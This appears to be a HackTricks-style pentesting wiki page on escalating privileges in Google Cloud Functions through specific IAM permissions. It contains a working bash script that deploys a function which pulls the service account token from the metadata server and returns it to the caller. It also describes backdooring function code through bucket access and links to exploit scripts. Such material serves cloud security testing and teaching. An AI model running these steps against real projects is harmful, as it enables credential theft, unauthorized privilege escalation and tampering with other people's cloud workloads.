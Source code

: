# GCP - Cloudfunctions Privesc

{{#include ../../../banners/hacktricks-training.md}}

## cloudfunctions

More information about Cloud Functions:

{{#ref}}
../gcp-services/gcp-cloud-functions-enum.md
{{#endref}}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **create a new Cloud Function with arbitrary (malicious) code and assign it a Service Account**. Then, leak the Service Account token from the metadata to escalate privileges to it.\
Some privileges to trigger the function might be required.

Exploit scripts for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) and [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) and the prebuilt .zip file can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions).

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

An attacker with these privileges can **modify the code of a Function and even modify the service account attached** with the goal of exfiltrating the token.

> [!CAUTION]
> In order to deploy cloud functions you will also need actAs permissions over the default compute service account or over the service account that is used to build the image.

Some extra privileges like `.call` permission for version 1 cloudfunctions or the role `role/run.invoker` to trigger the function might be required.

```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
    cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
    result = subprocess.check_output(cmd, shell=True, text=True)
    return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
  --runtime python312 \
  --source $temp_dir \
  --entry-point main \
  --service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
  --trigger-http \
  --allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```

> [!CAUTION]
> If you get the error `Permission 'run.services.setIamPolicy' denied on resource...` is because you are using the `--allow-unauthenticated` param and you don't have enough permissions for it.

The exploit script for this method can be found [here](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py).

### `cloudfunctions.functions.sourceCodeSet`

With this permission you can get a **signed URL to be able to upload a file to a function bucket (but the code of the function won't be changed, you still need to update it)**

```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```

Not really sure how useful only this permission is from an attackers perspective, but good to know.

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

Give yourself any of the previous **`.update`** or **`.create`** privileges to escalate.

### `cloudfunctions.functions.update`

Only having **`cloudfunctions`** permissions, without **`iam.serviceAccounts.actAs`** you **won't be able to update the function SO THIS IS NOT A VALID PRIVESC.**

### Read & Write Access over the bucket

If you have read and write access over the bucket you can monitor changes in the code and whenever an **update in the bucket happens you can update the new code with your own code** that the new version of the Cloud Function will be run with the submitted backdoored code.

You can check more about the attack in:

{{#ref}}
gcp-storage-privesc.md
{{#endref}}

However, you cannot use this to pre-compromise third party Cloud Functions because if you create the bucket in your account and give it public permissions so the external project can write over it, you get the following error:

<figure><img src="../../../images/image (1) (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

> [!CAUTION]
> However, this could be used for DoS attacks.

### Read & Write Access over Artifact Registry

When a Cloud Function is created a new docker image is pushed to the Artifact Registry of the project. I tried to modify the image with a new one, and even delete the current image (and the `cache` image) and nothing changed, the cloud function continue working. Therefore, maybe it **might be possible to abuse a Race Condition attack** like with the bucket to change the docker container that will be run but **just modifying the stored image isn't possible to compromise the Cloud Function**.

## References

- [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{{#include ../../../banners/hacktricks-training.md}}





